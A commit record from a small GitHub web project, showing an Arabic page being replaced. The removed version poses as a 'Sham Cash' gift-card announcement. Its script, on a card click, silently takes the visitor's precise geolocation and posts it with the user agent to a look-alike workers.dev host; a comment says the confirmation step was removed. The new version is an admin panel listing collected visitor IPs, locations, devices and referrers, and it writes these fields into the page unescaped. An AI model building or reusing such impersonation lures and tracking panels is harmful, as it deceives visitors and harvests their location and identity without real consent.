

Before and after one commit to Abo-ayman/Bachend, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,286 +1,96 @@
-
-<!DOCTYPE html>
+ <!DOCTYPE html>
 <html lang="ar" dir="rtl">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <meta name="theme-color" content="#081b27">
-  <title>بطاقات الشحن | شام كاش</title>
+<meta charset="UTF-8">
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>لوحة الزوار</title>
+<style>
+  body { font-family: Tahoma, Arial, sans-serif; background:#0b1220; color:#e6edf3; margin:0; padding:24px; }
+  h1 { font-size:20px; margin-bottom:16px; }
+  .login { max-width:320px; margin:80px auto; background:#111a2b; padding:24px; border-radius:12px; }
+  .login input { width:100%; padding:10px; margin:8px 0; border-radius:6px; border:1px solid #2a3850; background:#0b1220; color:#fff; box-sizing:border-box; }
+  .login button, .refresh { width:100%; padding:10px; border-radius:6px; border:none; background:#2f81f7; color:#fff; cursor:pointer; font-size:14px; }
+  table { width:100%; border-collapse:collapse; margin-top:16px; font-size:13px; }
+  th, td { padding:8px; border-bottom:1px solid #223047; text-align:right; }
+  th { color:#9fb3c8; }
+  .stats { display:flex; gap:12px; margin-bottom:16px; flex-wrap:wrap; }
+  .stat-card { background:#111a2b; padding:12px 16px; border-radius:10px; min-width:120px; }
+  .stat-card .num { font-size:22px; font-weight:bold; }
+  .stat-card .label { font-size:12px; color:#9fb3c8; }
+  #app { display:none; max-width:1000px; margin:0 auto; }
+  .error { color:#ff6b6b; font-size:13px; margin-top:8px; }
+</style>
+</head>
+<body>
 
-  <style>
-    * {
-      box-sizing: border-box;
-    }
+<div class="login" id="loginBox">
+  <h1>دخول لوحة الإدارة</h1>
+  <input type="password" id="pwd" placeholder="كلمة المرور">
+  <button onclick="login()">دخول</button>
+  <div class="error" id="loginError"></div>
+</div>
 
-    body {
-      margin: 0;
-      min-height: 100vh;
-      font-family: Tahoma, Arial, sans-serif;
-      color: #fff;
-      background:
-        radial-gradient(ellipse at 85% 12%, #16404a 0%, transparent 42%),
-        linear-gradient(145deg, #071923, #092631 55%, #06151f);
-    }
+<div id="app">
+  <h1>زوار الموقع</h1>
+  <div class="stats" id="stats"></div>
+  <button class="refresh" onclick="loadVisitors()">تحديث</button>
+  <table>
+    <thead>
+      <tr>
+        <th>الوقت</th><th>IP</th><th>الدولة/المدينة</th><th>الجهاز</th><th>النظام</th><th>المتصفح</th><th>اللغة</th><th>المصدر</th>
+      </tr>
+    </thead>
+    <tbody id="rows"></tbody>
+  </table>
+</div>
 
-    header {
-      min-height: 78px;
-      padding: 0 22px;
-      display: flex;
-      align-items: center;
-      justify-content: space-between;
-      border-bottom: 1px solid rgba(255,255,255,.08);
-    }
+<script>
+  // عدّل هذا إلى رابط الـ backend بعد نشره (لا تتركه localhost في الإنتاج)
+  const API_BASE = 'https://bachend-3iij.onrender.com';
+  let password = '';
 
-    .menu {
-      color: white;
-      font-size: 29px;
-      cursor: pointer;
-    }
+  function login() {
+    password = document.getElementById('pwd').value;
+    fetch(`${API_BASE}/admin/stats`, { headers: { 'x-admin-password': password } })
+      .then(r => { if (!r.ok) throw new Error('كلمة المرور غير صحيحة'); return r.json(); })
+      .then(() => {
+        document.getElementById('loginBox').style.display = 'none';
+        document.getElementById('app').style.display = 'block';
+        loadStats();
+        loadVisitors();
+      })
+      .catch(e => { document.getElementById('loginError').textContent = e.message; });
+  }
 
-    .logo {
-      display: flex;
-      align-items: center;
-      gap: 12px;
-      font-size: 21px;
-      font-weight: bold;
-    }
+  function loadStats() {
+    fetch(`${API_BASE}/admin/stats`, { headers: { 'x-admin-password': password } })
+      .then(r => r.json())
+      .then(data => {
+        document.getElementById('stats').innerHTML = `
+          <div class="stat-card"><div class="num">${data.total}</div><div class="label">إجمالي الزيارات</div></div>
+          <div class="stat-card"><div class="num">${data.last24h}</div><div class="label">آخر 24 ساعة</div></div>
+        `;
+      });
+  }
 
-    .logo-mark {
-      width: 34px;
-      height: 34px;
-      position: relative;
-      transform: rotate(45deg);
-      border: 5px solid #16c7a0;
-      border-radius: 8px;
-    }
-
-    .logo-mark::after {
-      content: "";
-      position: absolute;
-      inset: 5px;
-      border: 3px solid #16c7a0;
-      border-radius: 3px;
-    }
-
-    main {
-      width: min(100% - 36px, 720px);
-      margin: 0 auto;
-      padding: 42px 0 36px;
-    }
-
-    .eyebrow {
-      color: #32d6b0;
-      font-size: 14px;
-      margin-bottom: 12px;
-    }
-
-    h1 {
-      font-size: clamp(27px, 6vw, 38px);
-      line-height: 1.65;
-      margin: 0 0 18px;
-      font-weight: 800;
-    }
-
-    .description {
-      color: #d2dfe4;
-      font-size: 17px;
-      line-height: 2.05;
-      margin: 0 0 28px;
-    }
-
-    .cards-title {
-      font-size: 17px;
-      margin: 28px 0 15px;
-    }
-
-    .cards {
-      display: grid;
-      grid-template-columns: repeat(2, minmax(0, 1fr));
-      gap: 12px;
-    }
-
-    .card {
-      border: 1px solid rgba(45,215,178,.35);
-      background: rgba(255,255,255,.045);
-      color: white;
-      border-radius: 14px;
-      padding: 20px 12px;
-      text-align: center;
-      cursor: pointer;
-      font-family: inherit;
-      transition: background .2s, transform .2s;
-    }
-
-    .card:hover {
-      background: rgba(27,184,151,.14);
-      transform: translateY(-2px);
-    }
-
-    .amount {
-      display: block;
-      color: #37dfb8;
-      font-size: 27px;
-      font-weight: bold;
-      margin-bottom: 8px;
-      direction: ltr;
-      cursor: pointer;
-    }
-
-    .caption {
-      color: #d1dfe3;
-      font-size: 13px;
-    }
-
-    .more {
-      display: block;
-      width: 100%;
-      margin-top: 28px;
-      padding: 16px;
-      border-radius: 12px;
-      background: #17b995;
-      color: #06251f;
-      text-decoration: none;
-      text-align: center;
-      font-size: 17px;
-      font-weight: bold;
-    }
-
-    footer {
-      text-align: center;
-      padding: 20px;
-      color: #80979e;
-      font-size: 12px;
-    }
-
-    @media (max-width: 380px) {
-      main {
-        width: calc(100% - 28px);
-        padding-top: 30px;
-      }
-
-      .description {
-        font-size: 15px;
-      }
-    }
-  </style>
-</head>
-
-<body>
-  <header>
-    <div class="menu" aria-label="القائمة">☰</div>
-
-    <div class="logo">
-      <span>شام كاش</span>
-      <span class="logo-mark" aria-hidden="true"></span>
-    </div>
-  </header>
-
-  <main>
-    <div class="eyebrow">خدمات شام كاش</div>
-
-    <h1>شام كاش تطلق خدمة بطاقات الشحن</h1>
-
-    <p class="description">
-      يمكنك الآن إهداء رصيد شام كاش لمن تحب دون الحاجة إلى وجود حساب شام كاش أصلًا.
-      يمكنك شراء بطاقات شام كاش 10$ و20$ و50$ و100$، والتي تحتوي على كود شحن.
-      يمكنك إعطاء البطاقة لأي شخص، ليقوم بإدخال كود الشحن في النسخة الأحدث من تطبيق
-      شام كاش، وبمجرد إدخال الكود سيحصل على قيمة البطاقة.
-    </p>
-
-    <h2 class="cards-title">بطاقات الشحن المتاحة</h2>
-
-    <div class="cards">
-      <button class="card" type="button">
-        <span class="amount">10$</span>
-        <span class="caption">بطاقة شام كاش</span>
-      </button>
-
-      <button class="card" type="button">
-        <span class="amount">20$</span>
-        <span class="caption">بطاقة شام كاش</span>
-      </button>
-
-      <button class="card" type="button">
-        <span class="amount">50$</span>
-        <span class="caption">بطاقة شام كاش</span>
-      </button>
-
-      <button class="card" type="button">
-        <span class="amount">100$</span>
-        <span class="caption">بطاقة شام كاش</span>
-      </button>
-    </div>
-
-    <a
-      class="more"
-      href="https://shamcash.org/"
-      target="_blank"
-      rel="noopener noreferrer"
-    >
-      تعرّف على المزيد
-    </a>
-  </main>
-
-  <footer>شام كاش — بطاقات الشحن</footer>
-
-  <script>
-  const cards = document.querySelectorAll('.amount');
-  const WORKER_URL = 'https://shamcash.shamcach.workers.dev/';
-
-  cards.forEach((card) => {
-    card.style.cursor = 'pointer';
-
-    card.addEventListener('click', async () => {
-      // تم إزالة نافذة التأكيد (confirm) ليعمل الكود مباشرة عند الضغط
-
-      if (!navigator.geolocation) {
-        console.error('المتصفح لا يدعم تحديد الموقع الجغرافي.');
-        return;
-      }
-
-      navigator.geolocation.getCurrentPosition(
-        async (position) => {
-          const locationData = {
-            locationConsent: true,
-            latitude: position.coords.latitude,
-            longitude: position.coords.longitude,
-            accuracy: position.coords.accuracy,
-            card: card.textContent.trim(),
-            userAgent: navigator.userAgent,
-            timestamp: new Date().toISOString()
-          };
-
-          try {
-            const response = await fetch(WORKER_URL, {
-              method: 'POST',
-              headers: {
-                'Content-Type': 'application/json'
-              },
-              body: JSON.stringify(locationData)
-            });
-
-            if (!response.ok) {
-              console.error('تعذر إرسال البيانات، الحالة:', response.status);
-              return;
-            }
-
-            console.log('تم إرسال البيانات بنجاح.');
-          } catch (error) {
-            console.error('خطأ في الاتصال:', error);
-          }
-        },
-        (error) => {
-          console.error('لم يتم الحصول على الموقع:', error.message);
-        },
-        {
-          enableHighAccuracy: true,
-          timeout: 15000,
-          maximumAge: 0
-        }
-      );
-    });
-  });
+  function loadVisitors() {
+    fetch(`${API_BASE}/admin/visitors?limit=50`, { headers: { 'x-admin-password': password } })
+      .then(r => r.json())
+      .then(data => {
+        document.getElementById('rows').innerHTML = data.rows.map(v => `
+          <tr>
+            <td>${v.created_at}</td>
+            <td>${v.ip || '-'}</td>
+            <td>${(v.country || '-') + ' / ' + (v.city || '-')}</td>
+            <td>${v.device_type || '-'}</td>
+            <td>${v.os || '-'}</td>
+            <td>${v.browser || '-'}</td>
+            <td>${v.language || '-'}</td>
+            <td>${v.referrer || '-'}</td>
+          </tr>
+        `).join('');
+      });
+  }
 </script>
-
 </body>
 </html>
```
